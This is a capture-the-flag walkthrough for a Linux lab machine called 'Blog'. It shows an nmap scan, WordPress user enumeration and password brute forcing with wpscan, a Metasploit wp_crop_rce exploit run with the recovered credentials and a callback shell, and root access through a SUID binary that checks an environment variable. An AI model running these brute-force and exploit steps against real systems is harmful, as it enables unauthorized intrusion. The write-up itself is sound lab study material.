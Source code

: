 # Writeup: Blog

**OS**: 🐧 Linux

**Level**: 🟢 Easy

## 🔎 Enumeration:

Nmap scan:

```shell
nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan $TARGET
```

Result:

```
# Nmap 7.95 scan initiated Sat Sep 13 21:22:22 2025 as: /usr/lib/nmap/nmap --privileged -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan 10.10.103.108                     
Increasing send delay for 10.10.103.108 from 5 to 10 due to 20 out of 49 dropped probes since last increase.                                                     
Nmap scan report for 10.10.103.108                                                                                                                               
Host is up, received user-set (0.082s latency).                                                                                                                  
Scanned at 2025-09-13 21:22:22 CEST for 189s                                                                                                                     
Not shown: 65531 closed tcp ports (reset)                                                                                                                        
PORT    STATE SERVICE     REASON         VERSION                                                                                                                 
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                            
| ssh-hostkey:                                                                                                                                                   
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)                                                                                                   
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9M
sH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvt
fKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP                                                                                                     
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)                                                                                                  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI
=                                                                                                                                                                
|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)                                                                                                
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8                                                                               
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))                                                                                          
| http-robots.txt: 1 disallowed entry                                                                                                                            
|_/wp-admin/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu) 
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2025-09-13T19:25:26+00:00
| nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   BLOG<00>             Flags: <unique><active>
|   BLOG<03>             Flags: <unique><active>
|   BLOG<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2025-09-13T19:25:26
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 32545/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52169/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 40324/udp): CLEAN (Failed to receive data)
|   Check 4 (port 11063/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 13 21:25:32 2025 -- 1 IP address (1 host up) scanned in 189.70 seconds
```

On port 80 i found a webserver. I looked for the `robots.txt` and found following entries:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```

Since the server is running wordpress i started a scan with `wpscan` to enumerate usernames.

```shell
wpscan --url http://blog.thm --enumerate u
```

This gives me a few usernames.

```
kwheel
bjoel
Karen Wheeler
Billy Joel
```

## 💥 Exploitation:

I thought the obvious username to brute force was `bjoel`, but it turned out to be `kwheel`.

After a few minutes (hate bruteforce) i get the password for `kwheel` which is `cut******`.

```shell
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel
```

After a login on `http://blog.thm/wp-login.php` i can see that the used wordpress version is `5.0`.

I used searchsploit to find some authenticated RCE exploits and tried them out. I started metasploit and was able to get a shell trough the `wp_crop_rce` exploit.

```shell
msfconsole

search wordpress 5.0

use exploit/multi/http/wp_crop_rce

set PASSWORD cutiepie1
set USERNAME kwheel
set RHOSTS http://blog.thm
set LHOST 10.10.10.10

run
```

I switched to `bjoels` home directory and i have found the `user.txt` which gives me just a:

```
You won't find what you're looking for here.

TRY HARDER
```

## 🔓 Priviledge Escalation:

I looked for the usual things for privesc (sudo -l, cronjobs) and after a search for SUID binarys i found `/usr/sbin/checker` what caught my attention. I  runed it and get just a:

```shell
/usr/sbin/checker
Not an Admin
```

This was not helpful so i runed the binary again with `ltrace`, wich gives me this back:

```shell
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

So since the binary is checking for the environment variable `admin` i have just set it trought `export` and after running the `checker binary` again i was root. Then i was able to grab both flags.

## 💰 Loot:

```shell
# user.txt
c8421899aae571f7af4864**********

# root.txt
9a0b2b618bef9bfa7ac28c**********
```
